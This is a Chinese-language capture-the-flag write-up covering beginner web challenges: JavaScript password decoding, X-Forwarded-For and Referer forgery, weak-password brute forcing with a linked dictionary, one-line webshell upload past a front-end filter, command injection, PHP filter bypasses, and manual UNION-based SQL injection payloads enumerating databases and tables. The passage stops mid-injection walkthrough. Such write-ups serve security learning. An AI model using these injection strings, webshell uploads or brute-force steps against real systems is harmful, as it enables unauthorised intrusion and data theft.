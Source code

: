 <b>07-simple_js</b>

js问题，访问之后是一个js窗要求输入密码
查看源码，观察js代码。
可以写出解密python脚本：
对实际password直接输出得到ascii码值，输出其ascii码即是Flag。

<b>08-xff_referer</b>

提示伪造xff和referer。
伪造即可得到flag。
浏览器修改的话回音藏到后面，F12查看源码。

<b>09-weak_auth</b>

尝试登陆，提示密码错误，你可能需要一个字典。
弱密码爆破得到flag。
这里看教程拿到了一个字典库：
[字典](https://github.com/rootphantomer/Blasting_dictionary)

<b>010-webshell</b>

一句话木马，菜刀连一下。
直接看到flag.txt。得到flag

<b>011-command_execution</b>

命令注入，相当于DVWA的Low level。
cat /home flag.txt

<b>012-simple_php</b>

阅读php代码按要求输入即可...
a:科学计数法绕过。
b:%00截断。

#### <font color = "blue">level.2\-\-萌新入坑</font><br>

<b>01-upload</b>

打开是一个文件上传窗，随便上传一个发现回显路径;访问路径成功。
尝试上传一句话木马：提示只能上传jpg，但是文件栏成功显示一句话木马文件，只是上传按钮变灰。
联想到了是前端的过滤，禁用JS进行尝试。
成功上传一句话木马，菜刀连接。得到flag。

<b>02-NewsCenter</b>

发现存在post注入点。
手动注入：
`1' order by 3# ` 存在3列

`1' union select 1,2,3` 查看回显位置

`1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA#`或者`1' union select 1,2,schema_name from information_schema.schemata#`查看存在哪些数据库。

`1' union select 1,2,user()#`查看用户。

`1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='news'#`查看new内有哪些表单。
